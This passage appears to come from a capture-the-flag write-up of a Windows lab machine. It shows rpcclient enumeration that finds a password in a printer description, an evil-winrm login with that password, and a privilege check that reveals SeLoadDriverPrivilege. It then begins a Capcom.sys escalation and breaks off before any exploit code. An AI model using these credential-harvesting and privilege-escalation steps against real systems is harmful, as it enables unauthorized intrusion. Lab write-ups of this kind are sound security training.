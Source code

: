 Now that we have two users that we're most likely meant to go for, we'll see what we can find out about the printer on the website, since it had a file printed with a password in the name:

```
rpcclient $> getprinter HP-MFT01                                                                                                                                                                                                          
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

Nice, looks like we have a password in the description!

**$fab@s3Rv1ce$1**

Since it looks like a printer password, we'll try logging into svc-print using evil-winrm:

```
$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193
...
*Evil-WinRM* PS C:\Users\svc-print\Documents> 
```

## Internal Enumeration

From here, we can check our privileges:

```
$ whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

It looks like we're in the Print Operators group, as we have the SeLoadDriverPrivilege privilege, so we can escalate!

We'll use a couple of exploits for this:

Explanation of vulnerability:

https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#seloaddriverprivilege

Capcom.sys:
